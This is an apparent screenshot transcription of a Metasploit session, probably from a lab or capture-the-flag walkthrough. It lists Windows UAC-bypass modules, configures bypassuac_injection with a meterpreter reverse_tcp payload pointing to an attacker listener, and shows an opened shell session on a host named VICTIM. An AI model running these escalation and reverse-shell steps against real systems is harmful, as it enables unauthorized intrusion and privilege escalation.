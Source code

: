 ```
   4   exploit/windows/local/bypassuac_fodhelper              2017-05-12       excellent  Yes    Windows UAC Protection Bypass (Via FodHelper Registry Key)
   5   exploit/windows/local/bypassuac_injection              2010-12-31       excellent  No     Windows Escalate UAC Protection Bypass (In Memory Injection)
   6   exploit/windows/local/bypassuac_injection_winsxs       2017-04-06       excellent  No     Windows Escalate UAC Protection Bypass (In Memory Injection) abusing WinSXS
   7   exploit/windows/local/bypassuac_sdclt                  2017-03-17       excellent  Yes    Windows Escalate UAC Protection Bypass (Via Shell Open Registry Key)
   8   exploit/windows/local/bypassuac_silentcleanup          2019-02-24       excellent  No     Windows Escalate UAC Protection Bypass (Via SilentCleanup)
   9   exploit/windows/local/bypassuac_sluihijack             2018-01-15       excellent  Yes    Windows UAC Protection Bypass (Via Slui File Handler Hijack)
   10  exploit/windows/local/bypassuac_vbs                    2015-08-22       excellent  No     Windows Escalate UAC Protection Bypass (ScriptHost Vulnerability)
   11  exploit/windows/local/bypassuac_windows_store_filesys  2019-08-22       manual     Yes    Windows 10 UAC Protection Bypass Via Windows Store (WSReset.exe)
   12  exploit/windows/local/bypassuac_windows_store_reg      2019-02-19       manual     Yes    Windows 10 UAC Protection Bypass Via Windows Store (WSReset.exe) and Registry


Interact with a module by name or index. For example info 12, use 12 or use exploit/windows/local/bypassuac_windows_store_reg
```

```
msf6 exploit(windows/http/rejetto_hfs_exec) > use exploit/windows/local/bypassuac_injection
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf6 exploit(windows/local/bypassuac_injection) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
msf6 exploit(windows/local/bypassuac_injection) > show options

Module options (exploit/windows/local/bypassuac_injection):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SESSION                   yes       The session to run this module on.


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     10.10.16.4       yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows x86


msf6 exploit(windows/local/bypassuac_injection) > sessions

Active sessions
===============

  Id  Name  Type                     Information            Connection
  --  ----  ----                     -----------            ----------
  1         meterpreter x64/windows  VICTIM\admin @ VICTIM  10.10.16.4:4444 -> 10.0.22.98:49244 (10.0.22.98)

```